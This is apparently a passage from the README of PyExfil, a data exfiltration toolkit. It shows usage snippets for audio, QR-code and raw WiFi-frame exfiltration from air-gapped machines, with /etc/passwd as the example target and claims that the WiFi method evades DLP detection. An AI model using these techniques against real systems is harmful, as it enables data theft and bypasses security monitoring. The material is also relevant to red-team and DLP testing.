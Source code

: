 ```python
# Client (exfiltrator)
from pyexfil.physical.audio.exfiltrator import Exfiltrator

Exfiltrator("/etc/passwd")

# Server (listener)

""" Not Built Yet... """
```

#### QR Codes
This module is for machines that are, again, air-gapped from other networks and have severe hardening. It's meant to convert a file to a set of QR codes to be scanned by a camera on another machine and still be able to make sense of them.

It was written under MacOS so for any bugs please report to us so that we can fix them.

Installing requirements for this module: `pip install --user -r pyexfil/physical/qr/requirements.txt`.

For MacOS you might need `opencv` so:
```bash
brew tap homebrew/science
brew install opencv
```

Creating the QR Codes:
```python
from pyexfil.physical.qr.generator import CreateQRs, PlayQRs

CreateQRs('/etc/passwd', folder="/tmp/qr_gen0")
PlayQRs("/tmp/qr_gen0") # if you want the QRs to be displayed on the screen one by one.
```

Decoding the QR Codes
```python
from pyexfil.physical.qr.decoder import startFlow, DIR_MODE, CAM_MODE

if __name__ == "__main__":
    startFlow(mode=DIR_MODE) # will use data in 'output' directory.
    startFlow(mode=CAM_MODE) # will use data from camera
```

#### WiFi Frame Payload
This technique is especially efficient when you have some physical proximity to the machine that will exfiltrate the data and for large data sets. The idea behind this is to create Dot11 frames without any network association and sending them out. Any DLP device should not detect this as there is no 'real' network connectivity. There is no handshake, association or any other indication that the machine is communicating over WiFi other than the NIC sending frames.

This method can exfiltrate large data sets due to these conditions but required physical proximity to intercept the packets. Please bear in mind that we have built no quality compensation mechanism. Therefore, a single dropped packet and the data is lost. As always, we endorse anyone to add QA features to this technique and make it more operationally sound.
